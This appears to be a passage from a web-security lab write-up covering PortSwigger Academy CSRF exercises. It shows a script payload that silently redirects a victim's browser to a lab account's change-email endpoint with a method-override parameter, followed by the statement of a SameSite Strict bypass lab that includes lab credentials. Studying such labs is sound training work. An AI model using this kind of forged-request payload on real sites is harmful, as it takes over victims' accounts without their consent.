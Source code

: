 Then we will use this payload:

```
<script>
    document.location = 'https://0a6d00f7038377ec8069495800fd0010.web-security-academy.net/my-account/change-email?email=test4%40test.com&_method=POST';
</script>
```

# 08 SameSite Strict bypass via client-side redirect

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.


---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/1.png)
